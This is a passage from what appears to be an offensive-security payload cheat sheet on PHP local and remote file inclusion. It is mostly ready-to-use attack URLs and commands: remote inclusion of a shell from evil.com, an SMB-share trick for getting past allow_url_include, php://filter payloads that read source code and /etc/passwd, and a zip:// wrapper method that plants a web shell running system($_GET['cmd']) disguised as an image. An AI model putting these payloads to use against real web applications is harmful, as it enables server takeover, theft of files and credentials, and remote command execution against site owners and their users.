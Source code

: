 ```powershell
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

### Bypass allow_url_include

When `allow_url_include` and `allow_url_fopen` are set to `Off`. It is still possible to include a remote file on Windows box using the `smb` protocol.

1. Create a share open to everyone
2. Write a PHP code inside a file : `shell.php`
3. Include it `http://example.com/index.php?page=\\10.0.0.1\share\shell.php`


## LFI / RFI using wrappers

Some exploit protocol: https://www.cdxy.me/?p=752

### Wrapper php://filter

The part "php://filter" is case insensitive

```powershell
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

can be chained with a compression wrapper for large files.

```powershell
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

NOTE: Wrappers can be chained multiple times using `|` or `/`: 
- Multiple base64 decodes: `php://filter/convert.base64-decoder|convert.base64-decode|convert.base64-decode/resource=%s`
- deflate then base64encode (useful for limited character exfil): `php://filter/zlib.deflate/convert.base64-encode/resource=/var/www/html/index.php`

```powershell
./kadimus -u "http://example.com/index.php?page=vuln" -S -f "index.php%00" -O index.php --parameter page 
curl "http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php" | base64 -d > index.php
```

### Wrapper zip://

```python
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

